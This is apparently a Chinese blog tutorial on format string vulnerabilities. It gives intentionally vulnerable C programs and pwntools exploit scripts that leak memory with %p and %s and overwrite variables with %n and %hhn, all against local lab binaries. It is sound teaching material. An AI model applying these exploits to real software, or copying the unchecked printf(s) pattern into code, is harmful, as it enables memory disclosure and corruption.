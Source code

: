 ﻿---
layout:     post
title:      格式化字符串漏洞
subtitle:   
date:       2023-10-15
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

格式化字符漏洞

主要利用到以下的4种格式：

- s，如果没有用 l 标志，输出 null 结尾字符串直到精度规定的上限；如果没有指定精度，则输出所有字节。如果用了 l 标志，则对应函数参数指向 wchar_t 型的数组，输出时把每个宽字符转化为多字节字符，相当于调用 wcrtomb 函数。
- x/X，16 进制 unsigned int 。x 使用小写字母；X 使用大写字母。如果指定了精度，则输出的数字不足时在左侧补 0。默认精度为 1。精度为 0 且值为 0，则输出为空。
- p， void * 型，输出对应变量的值。printf("%p",a) 用地址的格式打印变量 a 的值，printf("%p", &a) 打印变量 a 所在的地址。
- n，不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。

### 漏洞原理

wiki上面写的很详细了，直接复制如下：

```
Input: printf("Color %s, Number %d, Float %4.2f", "red", 123456, 3.14)
Output: Color red, Number 123456, Float 3.14
```

以上面的函数为例，在进入 printf 函数的之前 (即还没有调用 printf)，栈上的布局由高地址到低地址依次如下

```
some value
3.14
123456
addr of "red"
addr of format string: Color %s...
```

在进入 printf 之后，函数首先获取第一个参数，一个一个读取其字符会遇到两种情况

- 当前字符不是 %，直接输出到相应标准输出。
- 当前字符是 %， 继续读取下一个字符
  - 如果没有字符，报错
  - 如果下一个字符是 %, 输出 %
  - 否则根据相应的字符，获取相应的参数，对其进行解析并输出

那么假设，此时我们在编写程序时候，写成了下面的样子

```
printf("Color %s, Number %d, Float %4.2f");
```

此时我们可以发现我们并没有提供参数，那么程序会如何运行呢？程序照样会运行，会将栈上存储格式化字符串地址上面的三个变量分别解析为

1. 解析其地址对应的字符串
2. 解析其内容对应的整形值
3. 解析其内容对应的浮点值

对于 2，3 来说倒还无妨，但是对于对于 1 来说，如果提供了一个不可访问地址，比如 0，那么程序就会因此而崩溃。

### 利用

1. 利用 %x 来获取对应栈的内存，但建议使用 %p，可以不用考虑位数的区别。
2. 利用 %s 来获取变量所对应地址的内容，只不过有零截断。
3. 利用 %order$x 来获取指定参数的值，利用 %order$s 来获取指定参数对应地址的内容。

```c
// 目标程序：leakmemory
// 编译：gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
#include <stdio.h>
int main() {
  char s[100];
  int a = 1, b = 0x22222222, c = -1;
  scanf("%s", s);
  printf("%08x.%08x.%08x.%s\n", a, b, c, s);
  printf(s);
  return 0;
}
```

#### 获知格式化字符串位置

首先通过`aaaa%p%p%p%p%p%p%p%p%p%p`查看输出中的0x41414141所在的位置，例如：

```
./leakmemory
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
00000001.22222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p
AAAA0xffaab1600xc20xf76146bb0x414141410x702570250x702570250x702570250x702570250x702570250x70257025%
```

可以看到，0x41414141是第四个%p得到的结果，从而确定当前的格式化字符串的起始地址是输入函数的第五个参数，格式化字符串的第四个参数。

#### 泄露任意地址内存

如果我们获取到`leakmemory.got['__isoc99_scanf']`的地址为0x804c014，就可以通过输入`b'\x14\xc0\x04\x08%4$s'`，来得到`__isoc99_scanf`对应的libc的位置。exp如下：

```python
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print (hex(__isoc99_scanf_got))
payload = p32(__isoc99_scanf_got) + b'%4$s'
print (payload)
# gdb.attach(sh)
sh.sendline(payload)
print (hex(u32(sh.recv()[4:8]))) # remove the first bytes of __isoc99_scanf@got
```

#### 覆盖内存

```c
//目标程序：overflow
/* example/overflow/overflow.c */
#include <stdio.h>
int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
    puts("modified c.");
  } else if (a == 2) {
    puts("modified a for a small number.");
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
  return 0;
}
```

首先获取格式化字符串的位置

```
0xffd006bc
aaaa%p%p%p%p%p%p%p%p%p%p%p
aaaa0xffd006580xf7f357b00x1(nil)0x10x616161610x702570250x702570250x702570250x702570250x70257025%
```

可以看到是`0x61616161`是格式化字符串的第六个参数。

修改c的值为16的exp如下：

```python
from pwn import *

sh = process('./overwrite') 
# gdb.attach(sh)
c_addr = int(sh.recvuntil(b'\n', drop=True), 16)
success('get c_addr: ' + hex(c_addr))

# 注意%n是将已经输出的字符的长度写入到指定地址
# 所以我们需要先输出c_addr共4个字节
# %012p用来将一个指针的地址以十六进制形式输出，并且总宽度为12个字符（包括前缀0x）
# 此时我们总输出了16个字节，再使用%n将16写入到c_addr中
payload = p32(c_addr) + b'%012p' + b'%6$n'
success('payload: ' + str(payload))
sh.sendline(payload)
print(sh.recv())
```

修改c的值为2的exp如下：

```python
from pwn import *

sh = process('./overwrite') 
overwrite = ELF('./overwrite')
# gdb.attach(sh)

# 因为a,b是全局变量，所以可以直接找到它的地址
# 65: 0804a024     4 OBJECT  GLOBAL DEFAULT   25 a
# 52: 0804a028     4 OBJECT  GLOBAL DEFAULT   25 b
a_addr = overwrite.symbols['a']
sh.recvuntil(b'\n')

# aa%8是第6个参数，$nxx是第7个，a_addr是第8个
# 所以这里是先输出aa，使得输出字符数为2，然后通过%n将a的值修改为2
# 最后的xx是为了和%n组合补齐8个字节
payload = b'aa%8$nxx' + p32(a_addr)
success('payload: ' + str(payload))
sh.sendline(payload)
print(sh.recv())
```

下图为执行printf时的栈，同样可以看到：

- a的地址是函数第9个参数（格式化字符串的第8个参数）
- $nxx 刚好8个字节补齐

 ![16973665339831697366533459.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16973665339831697366533459.png)

修改b为0x12345678的exp如下：

这个exp还没看明白，改天继续研究

```python
from pwn import *

def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr

def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i).decode('latin1')
        else:
            payload += p64(addr + i).decode('latin1')
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload.encode('latin1')

sh = process('./overwrite') 
overwrite = ELF('./overwrite')
# gdb.attach(sh)
b_addr = overwrite.symbols['b']
sh.recvuntil(b'\n')

payload = fmt_str(6,4,b_addr,0x12345678)
success('payload: ' + str(payload))
sh.sendline(payload)
print(sh.recv())

```

